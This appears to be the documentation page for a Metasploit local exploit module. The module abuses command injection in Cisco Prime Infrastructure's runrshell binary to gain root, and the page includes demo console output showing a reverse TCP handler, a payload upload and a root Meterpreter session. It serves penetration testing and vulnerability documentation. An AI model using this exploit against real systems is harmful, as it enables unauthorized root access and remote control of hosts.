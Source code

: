 ## Description

This modules exploits a vulnerability in Cisco Prime Infrastructure's runrshell binary. The runrshell binary is meant to execute a shell script as root, but can be abused to inject extra commands in the argument, allowing you to execute anything as root. It was originally discovered by Pedro Ribeiro, and chained in the CVE-2018-15379 exploit.

## Demo

```
msf5 exploit(linux/local/cpi_runrshell_priv_esc) > run

[*] Started reverse TCP handler on 192.168.0.21:4455 
[*] Uploading /tmp/ffBKRLxmTm.bin
[*] chmod the file with +x
[*] Executing /tmp/ffBKRLxmTm.bin
[*] Sending stage (985320 bytes) to 192.168.0.23
[*] Meterpreter session 10 opened (192.168.0.21:4455 -> 192.168.0.23:58920) at 2019-06-10 10:09:49 -0500

meterpreter > getuid
Server username: uid=0, gid=0, euid=0, egid=0
```

